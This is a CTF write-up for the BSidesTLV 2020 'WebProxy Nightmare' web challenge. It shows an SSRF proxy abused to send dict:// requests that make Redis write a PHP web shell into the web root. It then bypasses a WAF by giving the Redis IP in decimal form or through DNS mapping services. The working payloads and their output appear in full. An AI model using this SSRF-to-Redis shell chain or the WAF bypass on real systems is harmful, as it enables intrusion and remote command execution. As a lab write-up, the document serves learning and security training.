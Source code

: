 # WebProxy Nightmare
* Category: Web
* 400 Points
* Solved by the JCTF Team

## Description
> I have implemented WAF! but again all my data is leaking! HELP ME
> 
> URL: http://webproxy2.ctf.bsidestlv.com:8002/?csurl=https://gdpr-info.eu/
> 
> Note: please include the BSidesTLV cookie


## Solution

This is the follow-up challenge for [WebProxy](WebProxy.md).

Again, we start by changing the `csurl` parameter to localhost:
```console
root@kali:/media/sf_CTFs/bsidestlv/WebProxy_Nightmare# curl http://webproxy2.ctf.bsidestlv.com:8002/?csurl=http://127.0.0.1
```

As a response, we get a table with the following content:
| Service name: | IP Address: | Port: | 
| ------------- | ----------- | ----- |
| Redis | 10.42.106.242 | 6379 |
| NGINX | 10.42.249.43 | 80 |

We should probably try to see what happens when we run our original solution on the new server (after changing the IP address):

```console
root@kali:/media/sf_CTFs/bsidestlv/WebProxy_Nightmare# python3 solve.py
Sending request to: 'dict://10.42.106.242:6379/CONFIG SET dir /var/www/html'
Sending request to: 'dict://10.42.106.242:6379/CONFIG SET dbfilename shell.php'
Sending request to: 'dict://10.42.106.242:6379/SET mykey2 "<\x3Fphp echo \"\\n\"; system($_GET[\'command\']); exit;\x3F>"'
Sending request to: 'dict://10.42.106.242:6379/SAVE'
Sending request to: 'http://10.42.106.242:80/shell.php?command=cat $(find / -name flag.txt)'
BLOCKED BY WAF!
```

So there's a WAF here blocking access to the Redis server.

Turns out we can easily bypass it by changing the IP address.

One methods is using a decimal representation of the IP address:
```python
IP_ADDR = int(ipaddress.ip_address('10.42.106.242'))
```

Output:

```console
root@kali:/media/sf_CTFs/bsidestlv/WebProxy_Nightmare# python3 solve.py
Sending request to: 'dict://170552050:6379/CONFIG SET dir /var/www/html'
Sending request to: 'dict://170552050:6379/CONFIG SET dbfilename shell.php'
Sending request to: 'dict://170552050:6379/SET mykey2 "<\x3Fphp echo \"\\n\"; system($_GET[\'command\']); exit;\x3F>"'
Sending request to: 'dict://170552050:6379/SAVE'
Sending request to: 'http://170552050:80/shell.php?command=cat $(find / -name flag.txt)'
REDIS0006ş  flag!BsidesTLV2020{Y0u_4r3_A_Genius!!} mykey22<?php echo "\n"; system($_GET['command']); exit;?>ÿÙ�ÈŞÀRfİ
```

Another options is to use a DNS mapping service such as [1u.ms](1u.ms) or [nip.io](nip.io) that map a subdomain to an IP address based on the subdomain name:

```python
IP_ADDR = "make-10.42.106.242-rr.1u.ms"
IP_ADDR = "10.42.106.242.nip.io"
```

Output:
```console
root@kali:/media/sf_CTFs/bsidestlv/WebProxy_Nightmare# python3 solve.py
Sending request to: 'dict://make-10.42.106.242-rr.1u.ms:6379/CONFIG SET dir /var/www/html'
Sending request to: 'dict://make-10.42.106.242-rr.1u.ms:6379/CONFIG SET dbfilename shell.php'
Sending request to: 'dict://make-10.42.106.242-rr.1u.ms:6379/SET mykey2 "<\x3Fphp echo \"\\n\"; system($_GET[\'command\']); exit;\x3F>"'
Sending request to: 'dict://make-10.42.106.242-rr.1u.ms:6379/SAVE'
Sending request to: 'http://make-10.42.106.242-rr.1u.ms:80/shell.php?command=cat $(find / -name flag.txt)'
REDIS0006ş  flag!BsidesTLV2020{Y0u_4r3_A_Genius!!} mykey22<?php echo "\n"; system($_GET['command']); exit;?>ÿÙ�ÈŞÀRfİ


root@kali:/media/sf_CTFs/bsidestlv/WebProxy_Nightmare# python3 solve.py
Sending request to: 'dict://10.42.106.242.nip.io:6379/CONFIG SET dir /var/www/html'
Sending request to: 'dict://10.42.106.242.nip.io:6379/CONFIG SET dbfilename shell.php'
Sending request to: 'dict://10.42.106.242.nip.io:6379/SET mykey2 "<\x3Fphp echo \"\\n\"; system($_GET[\'command\']); exit;\x3F>"'
Sending request to: 'dict://10.42.106.242.nip.io:6379/SAVE'
Sending request to: 'http://10.42.106.242.nip.io:80/shell.php?command=cat $(find / -name flag.txt)'
REDIS0006þ  flag!BsidesTLV2020{Y0u_4r3_A_Genius!!}ÿKp¿’Ú“Êr
```

That wasn't such a nightmare after all.